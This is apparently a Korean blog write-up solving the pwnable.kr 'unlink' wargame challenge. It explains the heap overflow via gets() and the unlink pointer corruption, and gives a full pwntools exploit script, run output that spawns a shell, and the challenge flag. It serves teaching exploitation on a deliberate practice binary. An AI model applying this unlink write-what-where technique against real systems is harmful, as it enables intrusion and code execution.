 ```yaml
---
layout: post
title:  "Pwnable.kr unlink 풀이"
date:   2019-01-24 15:13:49 +0900
categories: writeup
tags: pwn
---
```


# unlink - 10 pt

## 문제

```
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

SSH로 연결해 들어가 보면 읽기 권한이 없는 `flag` 파일, `unlink.c` 소스코드와 `unlink` 바이너리가 주어져 있습니다. 이 문제의 목표는 `unlink` 바이너리에서 `shell`함수를 호출해 쉘을 따는 것 같네요.

## 풀이

### 개요

주어진 소스코드를 보면서 문제의 개략적인 구조를 파악해 봅시다.

```c
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;
```

`OBJ`란 구조체가 정의되어 있습니다. 구조체 포인터인 `fd`와 `bk`가 있고 8바이트를 담을 수 있는 공간이 있네요. `fd`와 `bk`의 용도는 뒤에서도 나오겠지만 여러 개의 `OBJ` 구조체를 하나의 연결 리스트처럼 이을때 사용하는 포인터랍니다.

```c
void shell(){
        system("/bin/sh");
}
```

딱 봐도 이 함수로 실행흐름을 바꿔서 쉘을 따는 것 같습니다. 참고로 `unlink` 바이너리의 권한은 `flag`파일을 읽을 수 있도록 해줍니다.

```c
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

`unlink` 바이너리의 메인 함수입니다. `OBJ` 구조체 3개 (A, B, C)를 생성한 후, A의 fd를 B로, B의 fd를 C로 연결한 다음 C의 bk를 B로, B의 bk를 A로 연결하고 있습니다. 그 다음 `gets` 함수로 A의 메모리 공간에 데이터를 입력합니다. 여기서 Heap Overflow 가 발생해서 뒤에 오는 B 구조체와 C 구조체의 메모리 공간을 마음대로 변조할 수 있게 됩니다. 그 다음 B를 `unlink` 함수로 각 구조체간의 연결을 끊습니다. `unlink` 함수를 좀더 자세히 보도록 할까요.

```c
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
```

`unlink` 함수에서는 파라미터로 주어진 `OBJ` 구조체 블록의 연결을 끊으면서 자신의 `fd`와 `bk`를 가르키고 있던 두 구조체로 연결을 시켜주네요. 결국 끊어진 구조체는 고립되게 됩니다. 그림으로 보면 이해가 더 쉬울 것 같네요. 발로 그림을 그렸나 의심할 수 있는데 손으로 그렸습니다 하하.

![1](https://raw.githubusercontent.com/cxbt/Writeup/master/Wargame/Pwnable.kr/screenshot/unlink_1.png)

### 공략 방법

`unlink` 바이너리에서 Stack 영역 주소와 Heap 영역 주소를 알려주고 있습니다. 이 문제를 접하고 하루정도 잡고 늘어지고 있었는데요, 그동안 여러가지 삽질을 시도해 봤습니다.

- `B.fd`에 `main` 함수 스택 프레임의 리턴 주소를 넣고, `B.bk`에 `shell` 함수의 주소를 넣어서 실행흐름을 바꾼다.

안타깝게도 `unlink` 함수를 호출하면 하면 `B.fd` 주소에 있는 값과 `B.bk` 주소에 있는 값이 각자의 주소로 바뀌게 됩니다. 그래서 `main` 함수 스택 프레임의 리턴 주소는 정상적으로 바꿀수 있습니다만 `shell` 함수의 주소로 가서 쓰기 작업을 할 수 없는 코드 영역에 데이터를 쓰려고 하기 때문에 Segmentation Fault가 발생하면서 프로그램이 죽습니다. (RIP)

- `A.buf`에 `jmp $shell`과 같은 어셈 코드를 넣고 위처럼 실행흐름을 Heap으로 넘긴다.

위와 비슷한 맥락의 문제가 발생하는데 어셈 코드를 넣는다고 해도 나중에 `main` 함수 주소로 덮어 씌워지게 됩니다. 그래서 프로그램이 이상해 지다가 실행할 수 없는 코드를 만나고 죽게 되죠. 게다가 바이너리에 NX가 걸려있어서 어셈 코드가 실행을 될지 모르겠네요. (알고보니 실행 됐습니다)

이 눈물나는 삽질과 노가다를 하루 종일 하다가 깨달은 건 `shell` 함수를 Heap에 저장해 놓고 리턴 주소를 직접적으로 `shell` 함수 주소로 바꾸는 것을 어렵다는 점, 그리고 이를 위해서 `shell` 함수를 간접적으로 참조하게 하는 로직을 찾아야 한다는 점입니다. 아무리 봐도 어느부분을 사용해야 되려나 봤는데 눈 씻고 찾아봐도 없어서 여러 블로그 눈팅했는데요, [이 블로그](https://go-madhat.github.io/pwnable.kr-unlink/)를 살짝살짝 읽다가 깨달음을 얻었습니다.

```assembly
0x0804852f <+0>:     lea    ecx,[esp+0x4]
0x08048533 <+4>:     and    esp,0xfffffff0
0x08048536 <+7>:     push   DWORD PTR [ecx-0x4]
0x08048539 <+10>:    push   ebp
0x0804853a <+11>:    mov    ebp,esp
...
0x080485fa <+203>:   mov    eax,0x0
0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]     <- 여기, 결국 EBP-0x4 값만 컨트롤 하면 EIP를 변조할 수 있게 된다.
0x08048602 <+211>:   leave
0x08048603 <+212>:   lea    esp,[ecx-0x4]               <- 여기
0x08048606 <+215>:   ret
```

처음 어셈블리 코드를 봤을 때 왜 저런 방식으로 함수 프롤로그를 여는지 궁금해서 구글에 쳐봤는데 컴파일러의 속마음을 아는 사람은 없었는지 이유를 찾지 못했습니다. 그러나 중요한 점은 이게 리턴 주소를 단순히 스택에 집어 넣고 `leave ret`으로 돌아가는 것이 아니라 `ECX` 범용 레지스터를 사용해서 간접적으로 참조를 시킨다는 점입니다. 왜 이렇게 컴파일러가 하는지에 대한 이유는 아직도 찾지 못했습니다. (주소 정렬하려고 이렇게 했나) 

간단하게 요약하자면 `lea esp,[ecx-0x4]` 코드를 활용하면 `shell` 함수의 주소를 간접적으로 가져올수 있습니다! :D

위에서 수행하려고 했던 방법의 한계점은 이랬죠.

- 읽기 영역인 코드 영역을 침범했다.
  - 이번에는 Heap과 Stack에 있는 값을 변조할 것이기 때문에 코드 영역을 침범하지 않습니다!
- 값이 서로 뒤바뀌어서 직접적으로 값을 참조할 수 없다.
  - `ESP`를 변조하는 값이 `[ecx-0x4]`이기 때문에 서로 뒤바뀐 값이 들어있는 영역이 아니라 그 영역에서 4바이트 전의 영역을 사용할 수 있다. 여기에 `shell` 함수의 주소를 넣고 이쪽으로 실행흐름을 돌리면 되겠네요.

아래 코드는 위에서 설명한 방법을 사용하는 익스플로잇 코드입니다.

```python
from pwn import *

p = process("/home/unlink/unlink")
d = p.recvuntil("get shell!")
print d

# 문제에서 주어진 Stack, Heap, Shell 함수의 주소를 가져온다.
stack = int(d.split(":")[1].split()[0].strip(),16)
heap = int(d.split(":")[2].split()[0].strip(),16)
shell = "\xeb\x84\x04\x08"

# 페이로드를 구성한다.
payload = ""
payload += shell+'A'*12         # A.buf[8] = Shell 함수 4바이트 + "A"*4
payload += p32(stack + 0xc)     # B.fd = EBP-0x4 위치를 주어진 Stack 주소에서 계산해 넣는다.
payload += p32(heap + 0xc)      # A.buf+4 = ecx-0x4를 참조하기 때문에 A.buf+4 주소를 넣는다.

print repr(payload)

p.send(payload)
print p.recvline()
p.interactive()
```

실행하면 매끄럽게 따지는 마술을 볼수 있습니다. 와우.

```bash
unlink@ubuntu:~$ python /tmp/nvm.py
[+] Starting local process '/home/unlink/unlink': Done
here is stack address leak: 0xff974b84
here is heap address leak: 0x929e410
now that you have leaks, get shell!
'\xeb\x84\x04\x08AAAAAAAAAAAA\x90K\x97\xff\x1c\xe4)\t'


[*] Switching to interactive mode
$ ls
flag  intended_solution.txt  unlink  unlink.c
$ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```

Heap 영역에서 발생하는 여러가지 취약점 중 간략화된 `Double Free Bug`를 사용해서 풀도록 만든 문제였습니다. 더 많은 Heap 영역에서 발생하는 취약점을 알고 싶으시다면 [블랙펄시큐리티 블로그 글](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)을 한번 읽어보세요.

---

<sub>
더 많은 문제풀이는 제 [리포](https://github.com/cxbt/Writeup)에서 확인하실수 있습니다.
</sub>
